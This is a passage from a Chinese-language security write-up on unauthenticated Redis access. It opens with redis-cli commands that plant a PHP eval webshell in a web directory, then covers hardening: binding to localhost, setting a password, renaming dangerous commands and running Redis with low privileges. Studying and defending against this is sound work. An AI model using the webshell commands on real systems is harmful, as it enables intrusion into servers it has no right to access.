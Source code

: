 ```sql
redis-cli -h 192.168.223.132 # 连接redis
config set dir /var/www/html/ # web目录
config set dbfilename shell.php # 定义文件名
set x "<?php eval(@$_POST['a']); ?>" # 写入内容
save # 对其保存
```

接下来就可以，使用后门工具进行连接。

## 修复方案

注意：以下操作，均需重启 Redis 后才能生效。

绑定需要访问数据库的 IP：将127.0.0.1修改为需要访问此数据库的IP地址。

设置访问密码：在 Redis.conf 中 requirepass 字段后，设置添加访问密码。

修改 Redis 服务运行账号：以较低权限账号运行 Redis 服务，禁用账号的登录权限。

1. 禁止一些高危命令（重启redis才能生效)

   ```yaml
   修改 redis.conf 文件，禁用远程修改 DB 文件地址
       rename-command FLUSHALL ""
       rename-command CONFIG ""
       rename-command EVAL ""
   或者通过修改redis.conf文件，改变这些高危命令的名称
       rename-command FLUSHALL "name1"
       rename-command CONFIG "name2"
       rename-command EVAL "name3"
   ```

2. 以低权限运行 Redis 服务（重启redis才能生效）

   为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆

   ```yaml
   groupadd -r redis && useradd -r -g redis redis
   ```

3. 为 Redis 添加密码验证（重启redis才能生效）

   修改 redis.conf 文件，添加

   ```yaml
   requirepass mypassword
   ```

   注意redis不要用-a参数，明文输入密码，连接后使用auth认证。

4. 禁止外网访问 Redis（重启redis才能生效）

   修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用

   ```yaml
   bind 127.0.0.1
   ```

   在redis3.2之后，redis增加了protected-mode，在这个模式下，非绑定IP或者没有配置密码访问时都会报错。
